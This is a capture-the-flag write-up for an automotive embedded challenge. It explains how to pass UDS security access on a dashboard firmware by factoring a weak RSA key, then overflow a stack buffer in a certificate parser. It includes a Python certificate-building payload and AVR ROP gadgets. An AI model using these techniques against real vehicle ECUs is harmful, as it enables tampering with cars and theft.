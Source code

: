 ## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challenge with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challenges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunately  I wasn't able to find exact CAN lib in open source, looks like developers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you don't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware handlers implements standard [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) service, also nice cheatsheet available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). For transmitting data larger than 8 byte, OBD2 and UDS utilize additional protocol, which is well described by links abouve.

Current firmware is using 3 UDS services:

 - 0x27 Security Access - challenge/response authentication mechanism which you need to pass before accessing other services. Current implementation is using RSA scheme with weak key length (32 bits), 31337 public exponent and 2777704703 module, which can be easily factorized by any online tool, using primes we calculate private exponent 690033473. During authentication we receive challenge, encrypt it using private exponent and send back.

 - 0x31 Routine Control - service command in case of receiving "014301" value resets stored shared secret to all 0xFF values.

 - 0x3d Write Memory By Address - service command, which allows overwrite range of address in NVM memory, where EC certificate is located (in case of something goes wrong, challenge contains additional firmware for wiping NVM memory, it will be useful for "unbricking" your board).

Next let's look startup routine, after printing "Initializing..." firmware initialize shared secret (HMAC key), if it set to 0xFF additional parsing of stored EC certificate is done. During parsing (function at 0x6297) some size checks are missing which allows us to overflow stack buffer and overwrite return pointer, all we need to do is make special certificate, store it to NVM and reset the board.

```python
def gen_cert(rop_payload):
    cert_name="1"
    cert_name="\x80"+chr(len(cert_name))+cert_name
    curve_name="\x00"*(108)+rop_payload
    curve_name="\x81"+chr(len(curve_name))+curve_name
    magic="3"
    magic="\x82"+chr(len(magic))+magic
    key="4"*0x31
    key="\x83"+chr(len(key))+key
    sig="5"*0x20
    sig="\x84"+chr(len(sig))+sig
    cert=cert_name+curve_name+magic+key+sig
    cert="\x30"+chr(len(cert))+cert
    return cert
```

Before printing the flag there is additional masking which we need to turn off, for this purpose we can use such rop gadgets:
    ROM:4C68    ser     r24
    ROM:4C69    pop     r0
    ROM:4C6A    pop     r29
    ROM:4C6B    pop     r28
    ROM:4C6C    ret

    ROM:8BB2    sts     flag_mask, r24
    ROM:8BB4    pop     r0
    ROM:8BB5    pop     r29
    ROM:8BB6    pop     r28
    ROM:8BB7    ret

    ROM:925D    pop     r17     #set 0x7212 - print_serial()
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:9259    mov     r24, r17 # pass 0x7212 to flag_print()
    ROM:925A    mov     r25, r16
    ROM:925B    pop     r29
    ROM:925C    pop     r28
    ROM:925D    pop     r17
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:8BB8    print_flag:
    ROM:8BB8    push    r28
    ...
    ROM:8BF0    ret

NOTE: Return pointers on XMEGA is stored as 3 bytes in Big Endian.

If everything is correct you will see your flag after "Initializing" message:

![climat](images/climat1.png)
